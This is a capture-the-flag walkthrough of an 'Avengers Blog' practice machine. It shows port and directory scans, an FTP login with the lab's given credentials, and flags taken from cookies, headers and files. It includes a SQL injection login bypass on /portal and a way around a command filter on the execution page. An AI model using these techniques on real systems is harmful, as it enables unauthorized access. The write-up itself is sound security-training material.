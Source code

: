 ==Avengers Blog   Flutter Aug 14 2021==

IP 10.10.0.77

> export IP=10.10.0.77

## Enumeration ##

### Source code ###

Found dirs

	img/
	js/
	css/

Found hint line 189

	<script src="/js/script.js"></script> <!-- Hint -->

/js/script.js found cookies flag

	document.cookie = "flag1=cookie_secrets; expires=Thu, 18 Dec 2050 12:00:00 UTC";
	flag1: cookie_secrets

### Dev Tools ###

Checking cookies under Storage tab found cookies flag as well
	
	flag1: cookie_secrets


"GET http://$IP" response headers under Network tab contain flag
	
	flag2: headers_are_important


### Scanning ###

nmap -sV -sC -T5 -oN nmap_initial $IP

	21/tcp open  ftp     vsftpd 3.0.3

	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	 ssh-hostkey: 
	   2048 b0:e5:59:ea:e7:88:c7:e0:69:30:0d:46:9f:20:75:c4 (RSA)
	   256 9d:80:60:d6:ac:c8:b2:aa:19:42:6d:56:fe:48:7c:a6 (ECDSA)
	   256 57:10:7a:e0:a2:f5:4f:d5:b7:7f:d7:e6:b4:c3:54:a5 (EdDSA)

	80/tcp open  http    Node.js Express framework
		http-title: Avengers! Assemble!


gobuster dir -u http://$IP -w directory-list-2.3-medium.txt -o gobuster_$IP

	/img (Status: 301)
	/home (Status: 302)
	/Home (Status: 302)
	/assets (Status: 301)
	/portal (Status: 200)
	/css (Status: 301)
	/js (Status: 301)
	/logout (Status: 302)
	/Portal (Status: 200)
	/HOME (Status: 302)
	/Logout (Status: 302)
	/stones (Status: 301)
	/PORTAL (Status: 200)

Logging in to ftp using given credentials groot:iamgroot

ftp> cd files

ftp> get flag3.txt

flag3.txt contains flag

	8fc651a739befc58d450dc48e1f1fd2e


### /portal ###

Trying SQLi with "' or 1=1--:' or 1=1--"
	
> Success


## RCE ##

whoami
	
	command disallowed

pwd

	/home/ubuntu/avengers

cd /; pwd
	
	/

> oh so that works

ls /home
	
	groot and ubuntu

ls /home/ubuntu
	
	flag5.txt

cat flag5.txt fails

less flag5.txt returns flag
	
	d335e2d13f36558ba1e67969a1718af7
